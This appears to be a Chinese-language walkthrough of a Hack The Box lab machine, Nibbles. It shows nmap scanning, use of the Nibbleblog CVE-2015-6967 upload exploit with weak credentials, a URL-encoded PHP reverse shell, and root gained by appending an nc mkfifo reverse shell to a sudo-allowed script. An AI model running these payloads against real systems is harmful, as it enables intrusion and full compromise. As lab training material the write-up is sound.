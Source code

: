 kali 10.10.16.5

靶机  10.10.10.75



```bash
└─# nmap -p22,80 -sV -sC -O $ip -oN nmap.txt                               
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-03 08:16 EDT
Nmap scan report for 10.10.10.75 (10.10.10.75)
Host is up (0.59s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (94%), Linux 3.13 (94%), Linux 3.2 - 4.9 (94%), Linux 3.8 - 3.11 (94%), Linux 4.4 (94%), Linux 3.16 (94%), Linux 3.18 (93%), Linux 4.2 (93%), Linux 4.8 (93%), Crestron XPanel control system (93%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



<img src=".\图片\Snipaste_2023-09-04_07-14-37.png" alt="Snipaste_2023-09-04_07-14-37" style="zoom:80%;" />



```bash
└─# searchsploit Nibbleblog                                                                                                                                 130 ⨯
-------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                                                          | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                                           | php/remote/38489.rb

```

[CVE-2015-6967](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6967)

于是全网找利用脚本

[GitHub - dix0nym/CVE-2015-6967: Nibbleblog 4.0.3 - Arbitrary File Upload (CVE-2015-6967)](https://github.com/dix0nym/CVE-2015-6967)

```bash
└─# python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```

<img src=".\图片\Snipaste_2023-09-04_07-41-59.png" alt="Snipaste_2023-09-04_07-41-59" style="zoom:80%;" />

看了脚本，本质上是找到后台弱口令登录，再上传webshell



反弹shell，棱角社区里找的 php 反弹shell，url编码了

```
php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.16.5%22%2C1234%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```



提升交互性

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```



```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -al
ls -al
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```



出错了，之前的反弹shell失败了，删除文件最后三行我们修改的内容，连续执行 3 次

```
sed -i '$d' monitor.sh
```



反弹shell

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 4321 > /tmp/f" >> monitor.sh
```





```bash
└─# nc -lvnp 4321                                                                                                                                             1 ⨯
listening on [any] 4321 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.75] 43790
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /home
# cd /root
# ls
root.txt
# cat root.txt
c802ae25e6cd4b5b938b25da747dae96
```


